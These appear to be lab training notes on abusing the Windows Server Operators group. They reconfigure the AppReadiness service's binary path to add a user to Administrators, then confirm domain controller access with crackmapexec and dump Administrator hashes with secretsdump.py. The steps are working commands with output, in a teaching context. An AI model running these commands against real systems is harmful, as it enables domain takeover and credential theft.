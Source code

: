 # Windows Server Operators

* The Server Operators group allows members to administer Windows servers without needing assignment of Domain Admin privileges
* It is a very highly privileged group that can log in locally to servers, including Domain Controllers.
* Membership of this group confers the powerful `SeBackupPrivilege` and `SeRestorePrivilege` privileges and the ability to control local services.

### Querying the AppReadiness Service

* Let's examine the `AppReadiness` service. We can confirm that this service starts as SYSTEM using the `sc.exe` utility

```cmd-session
sc qc AppReadiness
```

```cmd-session
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AppReadiness
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\svchost.exe -k AppReadiness -p
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : App Readiness
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

### Checking Service Permissions with PsService

* We can use the service viewer/controller [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice), which is part of the Sysinternals suite, to check permissions on the service.
* `PsService` works much like the `sc` utility and can display service status and configurations and also allow you to start, stop, pause, resume, and restart services both locally and on remote hosts.

```cmd-session
c:\Tools\PsService.exe security AppReadiness
```

```cmd-session
PsService v2.25 - Service information and configuration utility
Copyright (C) 2001-2010 Mark Russinovich
Sysinternals - www.sysinternals.com

SERVICE_NAME: AppReadiness
DISPLAY_NAME: App Readiness
        ACCOUNT: LocalSystem
        SECURITY:
        [ALLOW] NT AUTHORITY\SYSTEM
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                Pause/Resume
                Start
                Stop
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Administrators
                All
        [ALLOW] NT AUTHORITY\INTERACTIVE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] NT AUTHORITY\SERVICE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Server Operators
                All
```

* This confirms that the Server Operators group has SERVICE\_ALL\_ACCESS access right, which gives us full control over this service.

### Checking Local Admin Group Membership

```cmd-session
 net localgroup Administrators
```

```cmd-session
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
The command completed successfully.
```

### Modifying the Service Binary Path

```cmd-session
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

```cmd-session
[SC] ChangeServiceConfig SUCCESS
```

### Starting the Service

* Starting the service fails, which is expected.

```cmd-session
sc start AppReadiness
```

```cmd-session
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

### Confirming Local Admin Group Membership

```cmd-session
 net localgroup Administrators
```

```cmd-session
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
server_adm
The command completed successfully.
```

### Confirming Local Admin Access on Domain Controller

* From here, we have full control over the Domain Controller and could retrieve all credentials from the NTDS database and access other systems, and perform post-exploitation tasks.

```shell-session
crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'
```

```shell-session
SMB         10.129.43.9     445    WINLPE-DC01      [*] Windows 10.0 Build 17763 (name:WINLPE-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.9     445    WINLPE-DC01      [+] INLANEFREIGHT.LOCAL\server_adm:HTB_@cademy_stdnt! (Pwn3d!)
```

### Retrieving NTLM Password Hashes from the Domain Controller

```shell-session
secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator
```

```shell-session
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
Administrator:aes128-cts-hmac-sha1-96:94c300d0e47775b407f2496a5cca1a0a
Administrator:des-cbc-md5:d60dfbbf20548938
[*] Cleaning up...
```
